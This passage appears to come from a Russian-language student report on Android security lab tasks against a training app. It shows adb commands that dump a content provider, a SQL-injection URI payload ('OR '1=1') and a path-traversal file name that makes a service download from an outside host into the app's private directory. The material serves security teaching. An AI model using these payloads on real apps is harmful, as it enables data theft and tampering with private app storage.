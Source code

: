 > При слишком длинных командах, у меня adb почему-то не переносит их, а сдвигает влево за границы терминала, поэтому такая длинная команда для запуска службу может быть полностью не видна
### Задание №2
Попробуем просто вывести всех пользователей и бд:
```
content query --uri content://com.codeby.p1.provider.mycontentprovider/users
```

Для SQLj используем четвертый Uri match, где выбирается строка определенного пользователя.
Пейлоад имени: `name' OR '1=1`
полный запрос к контент провайдеру:
```
content query --uri "content://com.codeby.p1.provider.mycontentprovider/users/names/vasya' OR '1=1"
```

Важно заключить uri в скобки, чтобы использовать кавычки в пробеле. 
Скриншот команды и результата:
![alt text](assets/sovcomreport9.png)

### Задание №3
Чтобы сохранить файл в приватную директорию приложения, необходимо к имени файла прописать относительный путь до приватной директории, т.е. имя файла должно стать таким:
`../../../../../../../data/data/com.codeby.p1/task3.1.txt`. Это сработает, т.к. приложение само по себе имеет доступ к внутреннему хранилищу.

Полный запрос к службе:
```
am startservice -n com.codeby.p1/.MyIntentService -a com.codeby.p1.action.download --es com.codeby.p1.extra.PARAM1 http://qookie.tech:30055/ --es com.codeby.p1.extra.PARAM2 ../../../../../../../data/data/com.codeby.p1/task3.1.txt
```

Чтобы служба работала, необходимо чтобы приложение было запущено, т.к. она не Foreground.

Скриншот команды и результата:
![alt text](assets/sovcomreport10.png)

Занятие №4
----------------
